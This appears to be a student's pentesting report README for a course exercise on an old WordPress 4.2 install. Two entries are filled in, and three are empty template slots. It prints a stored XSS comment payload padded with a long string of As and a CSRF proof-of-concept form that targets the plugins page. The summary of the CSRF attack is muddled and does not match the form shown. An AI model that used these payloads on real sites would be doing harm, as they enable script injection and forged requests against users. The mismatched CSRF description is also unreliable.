 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Unauthenticated Stored Cross-Site Scripting
  - [ ] Summary: This is a XSS attack which stores a script in the comment section of a post. When an unaware user navigates to the link, they are constantly bombabred with the hello world pop-up
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: https://gph.is/2Gf2eF0
  - [ ] Steps to recreate: I copied the code from the Kali Linux and added a bunch As to the end of the script to overload the comment. I then pasted the script onto the comment section and the code is executed
  - [ ] Affected source code:<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
    
2. Filesystem Credentials Dialog CSRF
  - [ ] Summary: This attack manipulates the login page and uses a fake login button to lure the user into logging into a malicious website set up by the attacker, stealing their usernames and passwords. 
    - Vulnerability types: CSRF
    - Tested in version:4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough: https://gph.is/2L2LCE3
  - [ ] Steps to recreate: I first deleted the original login button on wordpress. Then I used html code given on the website and pasted that onto the login form so that it looks like a regular login button. Information that are being inputted into that website are then captured by burp and the attacker can use those captured credentials to login.
  - [ ] Affected source code: 
  <html>
   <body>
      <form action="http://<target>/wp-admin/plugins.php" method="POST">
         <input type="hidden" name="hostname" value="sumofpwn.nl" />
         <input type="hidden" name="connection_type" value="ftp" />
         <input type="hidden" name="password" value="password" />
         <input type="submit" value="Submit request" />
      </form>
   </body>
</html>
    - https://sumofpwn.nl/advisory/2016/cross_site_request_forgery_in_wordpress_connection_information.html
    
1. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types: 
    - Tested in version: 
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1]
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

